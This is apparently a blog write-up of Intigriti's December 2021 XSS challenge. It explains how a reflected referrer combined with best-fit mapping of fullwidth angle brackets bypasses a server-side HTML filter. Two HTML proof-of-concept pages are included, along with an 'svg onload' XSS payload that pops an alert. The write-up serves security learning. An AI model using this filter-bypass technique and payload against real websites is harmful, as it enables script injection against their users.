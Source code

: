 ```yaml
---
layout: single
title: Intigriti’s December XSS Challenge By @E1u5iv3F0x
date: 2021-12-26
classes: wide
tags:
  - Intigriti
  - XSS
  - Challenge
  - E1u5iv3F0x
---
```


Weak referrer policy and best-fit mapping transformations lead to cross-site scripting.

![share](/assets/images/intigriti/2021/12/share.jpg)

## TL;DR

The solution that I came up with consists of two flaws: a weak referrer policy and a best-fit mapping transformation. If you are not familiar with best-fit mapping, here is a brief description from [Netsparker](https://www.invicti.com/web-vulnerability-scanner/vulnerabilities/unicode-transformation-best-fit-mapping/).

> A best-fit mapping occurs when one Unicode character is substituted by a similar looking character. This might happen, for example, if a Unicode string is converted to an ASCII string. Due to the vast differences in the amount of available characters, many encoding functions try to map complex Unicode characters to a similarly looking character in ASCII. Á becomes A, ò becomes o, and so on.

## Overview

The challenge seems simple at first glance. You click on a cracker until it breaks an reveals more elements.

![merry xmas](/assets/images/intigriti/2021/12/merry-xmas.png)

This is later skipped by adding a query parameter `open=true` (the value could be anything).

I was able to quickly identify one source of user input. It is the `payload` query parameter, which gets set after submitting a value inside the cracker’s hidden elements. The input is then reflected onto the page inside a heading.

Here an example result with the query parameters `?open=y&payload=example`:

![example payload](/assets/images/intigriti/2021/12/example-payload.png)

The next logical step is to try and inject HTML. However, it looks like there is a strong filter on the server-side. Everything between angle brackets is removed, including the brackets.

![filter](/assets/images/intigriti/2021/12/filter.png)

My next attempt is to use unicode characters. Sometimes the server side transforms unicode characters into regular ASCII. This is also known as the best-fit mapping, where unknown characters are matched with closest looking characters. I even found a great article on this subject. I chose to use a fullwidth [less-than](https://util.unicode.org/UnicodeJsps/character.jsp?a=FF1C) and [greater-than](https://util.unicode.org/UnicodeJsps/character.jsp?a=FF1E) signs.

Unfortunately, the result is not transformed into ASCII.

![best-fit mapping attempt](/assets/images/intigriti/2021/12/best-fit-mapping-attempt.png)

Here is where I am at a dead-end once again. Nothing came to mind that could work.

Fortunately, Intigriti’s tip came out and gave me a new idea!

![intigriti's tip](/assets/images/intigriti/2021/12/intigriti-tip.png)

I didn’t even notice that when adding a payload parameter that an HTML comment saying *“Referer: “* appears.

So, I made a quick exploit, in order to add value to the reflected referrer.

```html
<!DOCTYPE html>

<head>
    <script>
        if (location.href.indexOf("payload") < 0)
            location = location.href + '?payload=example';
    </script>
</head>

<body>
    <iframe src="https://challenge-1221.intigriti.io/challenge/index.php?payload=x&open=y"
        height="1000px" width="1000px"></iframe>
</body>

</html>
```

I used VS Code’s Live server extension to serve my PoC on port 5500. However, upon visiting `127.0.0.1:5500/index.html?payload=example` the result is missing the referrer’s path and is only showing the domain.

![example referrer payload](/assets/images/intigriti/2021/12/referrer-reflection.png)

I looked up information about iframe referrer policies and found [this page](https://www.w3schools.com/tags/att_iframe_referrerpolicy.asp). In the Attribute Values table there is an `unsafe-url` option which might just do the trick.

![referrerpolicy values](/assets/images/intigriti/2021/12/referrerpolicy-values.png)

Here is the result of adding `referrerpolicy=”unsafe-url”` to the frame.

![example referrer payload](/assets/images/intigriti/2021/12/example-referrer-payload.png)

Now, after injecting text, it’s time to try HTML as well. The payload is now changed to `127.0.0.1:5500/index.html?payload=--></h4><svg+onload=alert(document.domain)>`.

![encoded referrer payload](/assets/images/intigriti/2021/12/encoded-referrer-payload.png)

The brackets get encoded into HTML entities. This is troublesome since there is no way of injecting any kind of code with encoded brackets.

Here is where I go back to the best-fit mapping method. I modify my exploit to swap the angle bracket characters with the fullwidth signs from before.

```html
<!DOCTYPE html>

<head>
    <script>
        if (location.href.indexOf("payload") < 0)
            location = location.href + '?payload=--></h4><svg+onload=alert(document.domain)>'
                .replaceAll("<", "\uFF1C")
                .replaceAll(">", "\uFF1E");
    </script>
</head>

<body>
    <iframe
        src="https://challenge-1221.intigriti.io/challenge/index.php?payload=x&open=y" 
        referrerpolicy="unsafe-url"
        height="1000px" width="1000px"
    ></iframe>
</body>

</html>
```

The result is:

![injection](/assets/images/intigriti/2021/12/injection.png)

Which immediately triggers the alert upon visiting `http://127.0.0.1:5500/`.

![alert](/assets/images/intigriti/2021/12/alert.png)

Thanks for reading, I hope this was helpful!